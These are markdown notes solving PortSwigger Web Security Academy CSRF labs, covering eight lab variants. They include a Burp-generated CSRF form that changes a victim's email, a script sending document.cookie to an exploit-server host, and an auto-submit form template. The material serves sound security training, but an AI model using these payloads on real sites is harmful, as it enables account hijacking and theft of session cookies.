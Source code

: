
# CSRF

cookie stealer PoC:

```html
<html>
  <!-- CSRF PoC - generated by Burp Suite Professional -->
  <body>
    <form action="https://0a8f005804bda51883f54b9900880010.web-security-academy.net/my-account/change-email" method="POST">
      <input type="hidden" name="email" value="segsgesgse&#64;normal&#45;user&#46;net" />
      <input type="submit" value="Submit request" />
    </form>
    <script>
      document.location= "https://exploit-0ab800840426a51d83184a2b013d00b8.exploit-server.net/?kookie="+document.cookie;
    </script>
  </body>
</html>

```



## Table of Contents

- [CSRF vulnerability with no defenses](#csrf-vulnerability-with-no-defenses)
- [CSRF where token validation depends on request method](#csrf-where-token-validation-depends-on-request-method)
- [CSRF where token validation depends on token being present](#csrf-where-token-validation-depends-on-token-being-present)
- [CSRF where token is not tied to user session](#csrf-where-token-is-not-tied-to-user-session)
- [CSRF where token is tied to non-session cookie](#csrf-where-token-is-tied-to-non-session-cookie)
- [CSRF where token is duplicated in cookie](#csrf-where-token-is-duplicated-in-cookie)
- [CSRF where Referer validation depends on header being present](#csrf-where-referer-validation-depends-on-header-being-present)
- [CSRF with broken Referer validation](#csrf-with-broken-referer-validation)

## CSRF vulnerability with no defenses
Reference: https://portswigger.net/web-security/csrf/lab-no-defenses


### Quick Solution
Just use the PoC generator of Burp and place it in the exploit server. It just works.


### Solution
1. With your browser proxying traffic through Burp Suite, log in to your account, submit the "Update email" form, and find the resulting request in your Proxy history.
2. If you're using Burp Suite Professional, right-click on the request and select Engagement tools / Generate CSRF PoC. Enable the option to include an auto-submit script and click "Regenerate".
Alternatively, if you're using Burp Suite Community Edition, use the following HTML template and fill in the request's method, URL, and body parameters. You can get the request URL by right-clicking and selecting "Copy URL".
```html
<form method="$method" action="$url">
     <input type="hidden" name="$param1name" value="$param1value">
</form>
<script>
      document.forms[0].submit();
</script>
```
3. Go to the exploit server, paste your exploit HTML into the "Body" section, and click "Store".